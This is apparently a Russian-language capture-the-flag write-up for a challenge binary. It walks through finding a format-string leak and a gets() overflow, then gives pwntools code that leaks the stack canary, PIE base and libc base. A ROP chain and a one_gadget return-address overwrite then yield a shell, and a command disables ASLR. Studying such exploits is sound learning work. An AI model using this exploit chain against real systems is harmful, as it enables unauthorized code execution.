

Описание эксплойта
===

Сначала проверяем бинарный файл

```bash
file publish/unhackable_bash && checksec publish/unhackable_bash
```


Важные для нас моменты - включённые [pie](https://pwn.college/concepts/pie.html) и [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/)

Первое означает, что для получения шелла нам сначала нужно будет узнать `PIEBASE`, то есть базовый адрес, по которому ОС загрузила нашу программу в память. Без него, читая бинарник, мы можем узнать лишь смещения адресов функций относительного базового адреса


Наличие стековых канареек не позволяет сразу использовать `ret2libc` и в целом перехватывать контроль над программой, перетирая адреса возврата из функций. Следовательно, в какой-то момент нашего эксплойта мы должны узнать значение стековой канарейки (оно одно на всю программу), чтобы в дальнейшем подставлять его при переполнениях

Для дальнейшего анализа воспользуемся декомпилятором `Cutter`. Проматривая полученный псевдокод на С, находим 2 потенциально уязвимые функции, `read_file` и `get_feedback`. Первая использует `gets`, небезопасное чтение из `stdin` в буффер, которое не проверяет длину считываемой строки, таким образом позволяя переполнить буффер и переписать значения на стэке. Вторая функция использует уже безопасное чтение из файла `fgets`, однако печатает строку через `printf` как литерал, допуская уязвимость форматной строки и чтение данных со стека


> Для локального анализа будет полезно отключить ASLR, чтобы программа загружалась в память каждый раз по одному и тому же адресу
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
``` 

Напишем простой скрипт [`fuzz.py`](./fuzz.py) для автоматизации проверок печатаемых значений. Наша цель - узнать канарейку и `PIEBASE`. Прогоняя скрипт вместе с `gdb`, находим на каком месте в стэке расположена канарейка и адрес какой-либо функции. Затем вычитая из адреса функции его смещение (оно статически вшито в бинарь), мы получаем базовый адрес

```python
# Leak 2 values from stack, address to calculate piebase and canary
io.sendlineafter(b'learned', '%{}$p %{}$p'.format(
    address_stack_offset, canary_stack_offset).encode())

io.recvuntil(b': ')

address_str, canary_str = str(io.recvline(), 'utf-8').split(' ')

leaked_address = int(address_str, 16)
leaked_cannary = int(canary_str, 16)

# Now calculate the piebase using known static address offset
exe.address = leaked_address - pie_offset

# Print leaked values for debug
info("piebase: %#x", exe.address)
info("leaked canary: %#x", leaked_cannary)
```

Теперь нам нужно узнать базовый адрес `libc`. Для этого мы распечатаем адрес какой-то функции из `got.plt` и вычтем её относительное смещение. Значит нам нужна какая-то функция из `libc` которая уже была вызвана в программе до этого, чтобы её адрес попал в `plt`. Для этого удобно подойдёт `puts`, с помощью которой мы потом и распечатаем адрес самой `puts`. Но нам нужно ещё положить адрес в регистр `rdi`, ведь именно значение из него используется в `puts`.

Воспользуемся командной утилитой `ropper` и найдём адрес гаджета (а точнее его смещение относительно базового) который выполнит `pop rdi`.


Составим вредоносный `payload`, который выведет адрес `puts` в результате и отправим его, а в самом конце перетрём адрес возврата снова на функцию `read_file`

```python
# Construct payload to leak libc address
payload = flat({
    buffer_offset: [
        leaked_cannary,  # leaked canary to safely take up on the control flow
        b'junkjunk',     # just need to feel the offset
        pop_rdi_gadget,  # pop rdi; ret
        exe.got.puts,    # get GOT address of puts as argument to next call of puts
        exe.plt.puts,    # Call puts() to leak the GOT.puts address
        exe.symbols.read_file # rewrite return address with read_file again
    ]
})

# Send payload and skip 1 line
io.sendline(payload)
io.recvline()

# Read and unpack got address for puts
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))

# Calculate libc base address using puts offset
libc.address = got_puts - libc.symbols.puts

info("libc_base: %#x", libc.address)
```

Используем утилиту `one_gadget` чтобы найти гаджет в `libc` который и даст нам шелл. Нам подходит самый первый


Теперь у нас есть всё необходимое для того чтобы выполнить `ret2libc с захватом шелла`.

```python
# Knowing libc address, we can calculate our shell gadget address
shell_gadget = libc.address + shell_gadget_offset

# Same payload as before but with libc gadget now
payload = flat({
    buffer_offset: [
        leaked_cannary,
        b'junkjunk',
        shell_gadget  # system('/bin/sh')
    ]
})

# Send payload
io.recvuntil(b'filename')
io.sendline(payload)

# Skip line
io.recvline()

# Get shell
io.interactive()
```

# Результат работы скрипта

### Локально


### Удалённо



